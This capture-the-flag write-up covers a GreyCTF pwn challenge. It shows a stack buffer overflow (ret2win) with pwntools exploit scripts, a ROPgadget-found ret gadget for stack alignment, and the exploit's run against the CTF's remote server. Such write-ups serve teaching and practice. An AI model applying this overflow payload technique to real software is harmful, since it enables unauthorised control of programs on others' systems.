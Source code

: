 ```
0x000000000040149f  login
0x0000000000401565  banner
0x0000000000401732  init
0x0000000000401783  main
0x00000000004017b0  _fini
pwndbg> 
```
We can see that view_message() located at 0x40138e. If we are doing this challlenge locally, we could just reuse the babygoods exploit script and pwn this binary. 
```py
from pwn import *

#p=remote("challs.nusgreyhats.org","30211")
p=process("./chall")
p.recvuntil(b"PIN: ")
p.sendline(b"A"*72+p64(0x000000000040138e))

print(p.recvall())                                                                                  
```
But we were meant to connect to the remote server and exploit the binary and when i tried running the script to connect to remote server, it failed. I kept changing the payload and testing it for 30 minutes before i realised that stack alignment was a thing. 

If you want to learn stack alignment is, you can check out this https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment which explains more about it but essentially, if your payload is delivered in a way where your stack is not 16-byte aligned (we are dealing with x64 system), it won't work and you'd be hard struck on this challenge just like i was.

To fix this issue, you have to add a return (ret) gadget (gadgets are a whole new topic so i won't be talking about it but it's like mini crumbs of assembly that exists within the binary) right before the view_message()'s address.

If we were to run ROPgadget on the binary, we would find the ret gadget is located at 0x000000000040101a.

```
┌──()-[~/greyctf/pwn/motor/distribution]
└─$ ROPgadget --binary ./chall 
...//random gadgets that we do not care about
0x000000000040101a : ret
```

Now, we just have to modify our payload just a bit to include and run it against the remote server. Below is the final exploit script.

```py
from pwn import *

p=remote("challs.nusgreyhats.org","30211")
#p=process("./chall")
p.recvuntil(b"PIN: ")
p.sendline(b"A"*72+p64(0x000000000040101a)+p64(0x000000000040138e))

print(p.recvall())  
```
```
┌──()-[~/greyctf/pwn/motor/distribution]
└─$ python3 exploit.py                                                                  
[+] Opening connection to challs.nusgreyhats.org on port 30211: Done
[+] Receiving all data: Done (609B)
[*] Closed connection to challs.nusgreyhats.org port 30211
```
